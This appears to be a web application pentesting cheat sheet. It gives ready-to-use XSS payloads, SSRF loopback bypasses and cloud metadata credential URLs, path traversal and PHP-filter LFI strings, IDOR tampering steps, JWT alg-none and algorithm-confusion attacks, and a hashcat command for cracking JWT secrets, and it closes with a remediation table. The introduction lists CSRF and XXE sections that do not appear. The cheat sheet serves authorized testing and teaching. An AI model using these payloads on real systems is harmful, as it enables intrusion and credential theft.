

# Web Application Pentesting Cheat Sheet

A comprehensive reference guide for web vulnerability testing, covering Cross-Site Scripting (XSS), Server-Side Request Forgery (SSRF), Local File Inclusion (LFI), Cross-Site Request Forgery (CSRF), XML External Entity (XXE), and JSON Web Token (JWT) exploitation vectors.

> [!NOTE]
> All payloads and testing procedures are provided strictly for educational purposes and authorized penetration testing assessments. Always test within an approved scope.

---

## Web Attack Methodology Overview



---

## 1. Cross-Site Scripting (XSS)

XSS occurs when an application includes untrusted data in a web page without proper validation or escaping.

### Reflected & Stored XSS Payloads
```html
<!-- Basic Proof of Concept -->
<script>alert(document.domain)</script>

<!-- Event Handler Injections -->

<svg onload=alert(1)>
<body onload=alert('XSS')>

<!-- Polyglot XSS Payload -->
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0D%0Ahandler=alert()
```

### DOM-Based XSS Sources & Sinks
* **Sources (Input):** `location.search`, `location.hash`, `document.referrer`, `window.name`
* **Sinks (Execution):** `eval()`, `innerHTML`, `document.write()`, `setTimeout()`

---

## 2. Server-Side Request Forgery (SSRF)

SSRF allows an attacker to induce the server-side application to make HTTP requests to an arbitrary domain or internal system.

### Internal IP & Metadata Payloads
```text
# Internal Loopback Bypasses
http://127.0.0.1:80
http://localhost:8080
http://0.0.0.0:80
http://127.1/
http://2130706433 (Decimal representation of 127.0.0.1)

# AWS Cloud Metadata Endpoint (IMDSv1)
http://169.254.169.254/latest/meta-data/
http://169.254.169.254/latest/meta-data/iam/security-credentials/

# GCP Metadata Endpoint
http://metadata.google.internal/computeMetadata/v1/ (Header required: Metadata-Flavor: Google)

# Azure Metadata Endpoint
http://169.254.169.254/metadata/instance?api-version=2021-02-01 (Header required: Metadata: true)
```

---

## 3. Local & Remote File Inclusion (LFI / RFI)

LFI/RFI flaws permit an attacker to read server files or execute remote scripts via unvalidated path inputs.

### Path Traversal & LFI Payloads
```text
# Basic Directory Traversal
../../../../etc/passwd
..\..\..\..\windows\win.ini

# URL-Encoded Bypasses
..%2f..%2f..%2f..%2fetc%2fpasswd
%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd

# PHP Wrapper Filters (Base64 Encoding Source Files)
php://filter/convert.base64-encode/resource=index.php
php://filter/read=string.rot13/resource=config.php
```

---

## 4. Broken Object Level Authorization (BOLA / IDOR)

Insecure Direct Object References occur when user input is trusted to access resources directly without proper access controls.

### Identification & Testing Checklist
1. **Identify Object Identifiers:** Look for `user_id=102`, `account_num=5541`, `doc_id=A99`.
2. **Parameter Tampering:** Increment/decrement numerical IDs or substitute GUIDs.
3. **HTTP Method Switching:** Try changing `GET /api/user/102` to `PUT` or `DELETE`.
4. **Multi-Role Testing:** Swap authorization tokens between User A and User B.

---

## 5. JSON Web Token (JWT) Security Attacks

### Common JWT Vulnerability Checks
* **Algorithm None Attack:** Change `"alg": "HS256"` in token header to `"alg": "none"` and delete the signature block.
* **Weak HMAC Secret Cracking:** Use Hashcat or John the Ripper to brute-force weak HMAC-SHA256 signing keys.
* **Algorithm Confusion Attack:** Switch algorithm from `RS256` (Asymmetric) to `HS256` (Symmetric) using the server's public key as the secret.

```bash
# Hashcat JWT Secret Brute-forcing
hashcat -m 16500 jwt_token.txt wordlist.txt
```

---

## Defensive Countermeasures & Remediation

| Vulnerability | Primary Defense Mechanism |
| :--- | :--- |
| **XSS** | Context-aware output encoding (HTML, JS, CSS) + Content Security Policy (CSP) |
| **SSRF** | Strict URL whitelisting + Blocking private subnet ranges (RFC 1918) |
| **LFI** | Avoid passing file paths as parameters + Whitelist allowed filenames |
| **BOLA/IDOR**| Enforce server-side session-based access control checks on every request |
| **JWT** | Enforce strong algorithm whitelist (e.g., RS256 only) & secure secret management |
